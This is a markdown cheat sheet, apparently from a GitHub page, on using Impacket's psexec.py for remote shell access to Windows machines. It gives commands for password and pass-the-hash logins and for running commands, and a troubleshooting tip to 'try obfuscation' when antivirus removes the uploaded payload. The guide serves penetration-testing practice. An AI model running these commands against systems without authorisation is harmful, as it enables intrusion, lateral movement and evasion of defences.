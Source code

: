 
# 🛠️ Impacket `psexec.py` Usage Guide

The `psexec.py` tool from the Impacket suite allows remote command execution on Windows systems using SMB and the Service Control Manager.

---

## ✅ Basic Usage

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@<target_ip>
```

You’ll be prompted for the password.

---

## 🔐 Authenticate with NTLM Hash

```bash
python3 psexec.py -hashes <LMHASH>:<NTHASH> Administrator@<target_ip>
```

Example:
```bash
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9a5b8e5f6ed... Administrator@10.129.237.20
```

---

## 🧪 Run a Specific Command

```bash
python3 psexec.py Administrator@<target_ip> -command "ipconfig /all"
```

---

## 🗝️ Use a Password File

```bash
python3 psexec.py -auth-file auth.txt Administrator@<target_ip>
```

---

## 📁 Common Output Indicators

- `[*] Uploading file <random>.exe`: Impacket uploads a temporary payload
- `[*] Starting service <svcname>`: Command is being run as a service
- `Microsoft Windows [Version ...]`: You've got a shell!

---

## ⚠️ Troubleshooting

| Issue                              | Fix                                                      |
|-----------------------------------|-----------------------------------------------------------|
| `STATUS_LOGON_FAILURE`            | Check username/password or NT hash                        |
| `Connection refused`              | SMB port (445) may be blocked                             |
| `Access denied` after auth        | Admin rights required                                     |
| Antivirus deletes the uploaded EXE| AV is interfering; try obfuscation or another technique   |

---

## 📦 Related Tools

- `wmiexec.py`: Lighter-weight, no file upload
- `smbexec.py`: Uses SMB pipes for execution
- `evil-winrm`: Native PowerShell shell access over WinRM

---

## 🧼 Clean Up

Be sure to:
- Remove any dropped payloads
- Stop created services
- Log out cleanly

---

✅ Use `psexec.py` when you have valid admin credentials or hashes and need full shell access to a remote Windows system.
